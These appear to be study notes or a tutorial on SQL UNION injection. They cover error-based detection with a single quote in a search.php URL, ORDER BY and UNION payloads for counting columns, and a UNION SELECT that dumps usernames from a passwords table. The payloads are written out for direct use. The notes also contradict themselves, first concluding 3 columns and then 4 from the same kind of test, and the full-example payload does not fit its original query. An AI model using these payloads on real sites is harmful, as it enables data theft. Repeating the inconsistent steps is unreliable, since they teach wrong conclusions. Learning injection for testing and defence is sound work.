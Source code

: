 #### Full Example
- **Original Query**:
  ```sql
  SELECT * FROM products WHERE product_id = '1';
  ```
- **Union Injection**:
  ```sql
  UNION SELECT username, 2, 3, 4 FROM passwords-- ';
  ```

- **Result**:
  ```sql
  +-----------+-----------+-----------+-----------+
  | product_1 | product_2 | product_3 | product_4 |
  +-----------+-----------+-----------+-----------+
  |   admin   |    2      |    3      |    4      |
  +-----------+-----------+-----------+-----------+
  ```

#### Tips
- **Data Type Matching**: Ensure junk data matches the column's data type to avoid errors.
- **Using `NULL`**: For advanced injections, `NULL` can be used as it fits all data types.
  ```sql
  UNION SELECT username, NULL, NULL, NULL FROM passwords-- ';
  ```

---



# Union Injection in SQL

#### Detecting Vulnerability
- **Initial Test**: Inject a single quote (`'`) to see if it causes an error.
  ```sql
  http://SERVER_IP:PORT/search.php?port_code=cn'
  ```
- **Error Response**: Indicates potential SQL injection vulnerability.

#### Detecting Number of Columns
- **Method 1: Using ORDER BY**
  - Incrementally add `ORDER BY` clauses until an error occurs.
  ```sql
  ' order by 1-- -
  ' order by 2-- -
  ' order by 3-- -
  ' order by 4-- -  -- Error occurs here, meaning there are 3 columns.
  ```

- **Method 2: Using UNION**
  - Attempt UNION injection with increasing columns until successful.
  ```sql
  cn' UNION select 1,2,3-- -  -- Error
  cn' UNION select 1,2,3,4-- -  -- Success, meaning there are 4 columns.
  ```
